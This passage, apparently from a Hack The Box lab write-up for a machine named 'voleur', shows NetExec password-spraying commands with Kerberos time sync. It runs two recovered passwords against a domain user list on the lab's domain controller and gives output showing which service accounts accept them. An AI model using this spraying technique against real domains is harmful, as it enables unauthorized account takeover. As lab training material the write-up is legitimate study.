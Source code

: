 and yeah we found some password here. it says todd wolfe account is deleted but maybe someone using his password as passwod. (no success)

There was only svc_ldap and svc_iis password work for them directly

```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u users.txt -p 'M1XyC9pW7qT5Vn' -k --continue-on-success
SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Administrator:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Guest:M1XyC9pW7qT5Vn KDC_ERR_CLIENT_REVOKED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\krbtgt:M1XyC9pW7qT5Vn KDC_ERR_CLIENT_REVOKED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\ryan.naylor:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\marie.bryant:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\lacey.miller:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_backup:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_iis:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\jeremy.combs:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_winrm:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" nxc smb DC.voleur.htb -u users.txt -p 'N5pXyW1VqM7CZ8' -k --continue-on-success
SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Administrator:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Guest:N5pXyW1VqM7CZ8 KDC_ERR_CLIENT_REVOKED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\krbtgt:N5pXyW1VqM7CZ8 KDC_ERR_CLIENT_REVOKED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\ryan.naylor:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\marie.bryant:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\lacey.miller:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_ldap:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_backup:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\svc_iis:N5pXyW1VqM7CZ8 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\jeremy.combs:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_winrm:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
```
